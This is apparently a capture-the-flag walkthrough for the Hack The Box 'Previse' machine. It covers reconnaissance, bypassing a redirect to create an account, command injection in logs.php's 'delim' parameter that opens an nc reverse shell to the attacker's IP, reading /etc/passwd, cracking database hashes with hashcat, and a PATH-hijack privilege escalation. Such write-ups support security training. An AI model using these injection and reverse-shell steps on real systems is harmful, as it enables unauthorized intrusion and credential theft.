# HTB Previse

### Enumeration
As with most, if not all htb machines, we add previse.htb to the hosts file on the attacking machine.



Initial scan with nmap shows ports 22 and 80 are open.

`nmap -Pn -p- -vv -sV -A -oA all-ports previse.htb`



Checking out port 80 shows a login page.
Start wfuzz with modified wordlist.



When attempting to visit accounts.php in a browser, the attacker will get redirected back to the login page.
An attacker can use a couple tools to bypass this redirect.

#### Option 1
Use OWASP ZAP or Burpsuite to break point / intercept the response traffic and change the 302 Found to a 200 Ok.
This will trick the browser into viewing accounts.php.
If the attacker likes this option, they will have to keep modifying the response and create a user account.





#### Option 2
The attacker can also view accounts.php by using curl to view accounts.php and create an account.
```buildoutcfg
# Create username123 // password312
curl http://previse.htb/accounts.php --data-raw 'username=username123&password=password312&confirm=password312&submit='
``` 




Which ever option the attacker takes, they can now login from the main page and view the site.
The attacker has the ability to download a file and view the contents.
The contents are a backup of the site.

### Foothold

Looking through the files in the backup, an attacker might notice the logs.php is executing a system command.
There's an injection vulnerability with the 'delim' parameter.
Using the PHPSESSID cookie (the attacker should be logged in as a user at this point) and cURL, an attack can establish a reverse shell to the attacking machine.

```curl http://previse.htb/logs.php' -H 'Cookie: PHPSESSID=gEtYoUrOwNcOoKiE' --data-raw 'delim=comma; nc 10.10.16.54 4444 -e /bin/bash'```



Check /etc/passwd for a usernames (`cat /etc/passwd`).
The config.php file from the backup has some notable information in it.
Using this, the attacker can log into the mysql database.



Using the foothold, login to mysql (`mysql -u root -p`).
There are hashes stored in mysql.
One of the hashes appears to be for the username found in /etc/passwd.
Checking back at accounts.php, the crypt() function is used and a salt is provided.
This means it should be basic MD5 encryption.



Use hashcat and rockyou.txt dictionary (`hashcat -a 0 -m 500 hash.txt /usr/share/wordlists/rockyou.txt`).

PASSWORD CRACKING NOTES: Typically, you can tell if it's meant to be cracked by using the rockyou.txt dictionary provided by Kali Linux.
If rockyou.txt doesn't work, another option is to use cewl on the HTTP/HTTPS service and create your own dictionary.
If you use the cewl option, you may also need to mutate the dictionary. 



### User.txt

Now the attacker can login via SSH with the username from /etc/passwd and the cracked password.
The user.txt flag is waiting for the attacker upon login.

### Root.txt

Check what commands are allowed with sudo (`sudo -l`).
The script that is allowed root privileges, seems to be calling unix 'date'.
Create a malicious 'date' script in /tmp with a ncat reverse shell.
Edit the PATH variable to include /tmp.
In another terminal, setup ncat as a listener for an incoming connection.
Execute the access_backup.sh with sudo and the attacker is granted root access.


